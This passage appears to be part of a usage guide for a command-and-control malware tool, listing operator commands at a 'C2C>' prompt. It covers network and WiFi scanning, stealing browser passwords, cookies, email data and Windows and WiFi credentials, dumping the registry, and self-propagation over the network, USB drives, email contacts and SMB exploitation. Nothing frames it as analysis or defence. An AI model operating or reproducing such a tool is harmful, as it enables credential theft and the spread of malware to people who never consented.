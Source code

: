 ### 🌐 Network Operations

#### Network Discovery
```
# Scan local network
C2C> netscan 192.168.1.0/24

# Port scan
C2C> portscan 192.168.1.1 1-1000

# ARP scan
C2C> arpscan

# WiFi networks
C2C> wifi scan

# Network connections
C2C> netstat
```

#### Data Exfiltration
```
# Browser data
C2C> browser --passwords --history --cookies

# Email data
C2C> email --outlook --thunderbird

# Registry dump
C2C> registry dump HKCU\\Software\\Microsoft

# Credential harvesting
C2C> creds --windows --browsers --wifi
```

### 🚀 Lateral Movement

#### Network Propagation
```
# Auto spread on network
C2C> spread --network 192.168.1.0/24

# USB spread
C2C> spread --usb

# Email spread
C2C> spread --email contacts.txt

# SMB exploitation
C2C> exploit smb 192.168.1.0/24
```
